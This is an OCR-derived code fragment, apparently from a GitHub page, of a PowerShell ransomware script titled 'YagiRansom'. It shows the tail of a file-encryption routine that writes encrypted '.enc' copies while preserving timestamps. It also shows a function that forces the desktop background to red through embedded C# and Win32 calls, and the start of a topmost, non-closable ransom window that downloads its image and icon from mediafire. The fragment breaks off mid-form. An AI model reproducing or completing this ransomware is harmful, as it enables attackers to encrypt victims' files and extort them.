 ```python=
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
function RemoveWallpaper {
$code = @"
using System;
using System.Drawing;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace CurrentUser { public class Desktop {
[DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern int SystemParametersInfo(int uAction, int uParm, string lpvParam, int fuWinIni);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern int SetSysColors(int cElements, int[] lpaElements, int[] lpRgbValues);
public const int UpdateIniFile = 0x01; public const int SendWinIniChange = 0x02;
public const int SetDesktopBackground = 0x0014; public const int COLOR_DESKTOP = 1;
public int[] first = {COLOR_DESKTOP};
public static void RemoveWallPaper(){
SystemParametersInfo( SetDesktopBackground, 0, "", SendWinIniChange | UpdateIniFile );
RegistryKey regkey = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
regkey.SetValue(@"WallPaper", 0); regkey.Close();}
public static void SetBackground(byte r, byte g, byte b){ int[] elements = {COLOR_DESKTOP};
RemoveWallPaper();
System.Drawing.Color color = System.Drawing.Color.FromArgb(r,g,b);
int[] colors = { System.Drawing.ColorTranslator.ToWin32(color) };
SetSysColors(elements.Length, elements, colors);
RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Colors", true);
key.SetValue(@"Background", string.Format("{0} {1} {2}", color.R, color.G, color.B));
key.Close();}}}
try { Add-Type -TypeDefinition $code -ReferencedAssemblies System.Drawing.dll }
finally {[CurrentUser.Desktop]::SetBackground(250, 25, 50)}}
function PopUpRansom {
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")  
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") 
[void] [System.Windows.Forms.Application]::EnableVisualStyles() 
Invoke-WebRequest -useb https://www.mediafire.com/view/wlq9mlfrlonlcuk/yagi.png/file -Outfile $env:temp\YagiRansom.jpg
Invoke-WebRequest -useb https://www.mediafire.com/file/s4qcg4hk6bnd2pe/Yagi.ico/file -Outfile $env:temp\YagiRansom.ico
$shell = New-Object -ComObject "Shell.Application"
$shell.minimizeall()
$form = New-Object system.Windows.Forms.Form
$form.ControlBox = $false;
$form.Size = New-Object System.Drawing.Size(900,600) 
$form.BackColor = "Black" 
$form.MaximizeBox = $false 
$form.StartPosition = "CenterScreen" 
$form.WindowState = "Normal"
$form.Topmost = $true
$form.FormBorderStyle = "Fixed3D"
$form.Text = "YagiRansom"
```